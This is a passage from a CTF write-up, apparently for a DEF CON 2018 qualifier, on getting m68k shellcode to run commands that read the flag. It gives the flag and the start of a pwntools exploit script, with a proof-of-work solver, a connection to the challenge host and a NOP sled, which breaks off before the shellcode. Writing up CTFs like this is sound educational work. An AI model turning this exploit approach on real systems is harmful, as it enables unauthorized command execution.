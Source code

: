 After several attempts to write a working shellcode for m68k we were  
successfully able to execute commands. First, we tried by executing
`system("open flag")`,  
which runs a graphic text editor opening the flag file. However, on the remote  
machine the editor appeared behind the browser window, hiding half of the
flag.  
Second, we executed `cat flag`, looking at the output in the already opened  
console. Even in this case we failed, as last chars of the flag were still  
behind the browser window. Finally, by executing `cat flag` five times in our  
shellcode, we were able to see the entire flag.

Flag: `defconctf{Party_like_its_1992_for_the_next_Step}`

Exploit:

```python  
from pwn import *  
import base64  
import sys  
import time  
import os  
host = 'ddee3e1a.quals2018.oooverflow.io'  
port =  31337

def pow_hash(challenge, solution):  
   return hashlib.sha256(challenge.encode('ascii') + struct.pack('<Q',
solution)).hexdigest()

def check_pow(challenge, n, solution):  
   h = pow_hash(challenge, solution)  
   return (int(h, 16) % (2**n)) == 0

def solve_pow(challenge, n):  
   candidate = 0  
   while True:  
       if check_pow(challenge, n, candidate):  
           return candidate  
       candidate += 1

def connect():  
   global conn  
   conn.close()  
   conn = remote(host,port)  
   conn.recvuntil('Challenge: ')  
   challenge = conn.recvuntil('\n')[:-1]  
   conn.recvuntil('n: ')  
   n = int(conn.recvuntil('\n')[:-1])

   solution = solve_pow(challenge, n)  
   conn.sendline(str(solution))

conn = remote(host,port)  
connect()

filename = int(time.time())  
os.mkdir(str(filename))

DOUBLE_NOP = '\x4e\x71\x4e\x71'  
shellcode =
```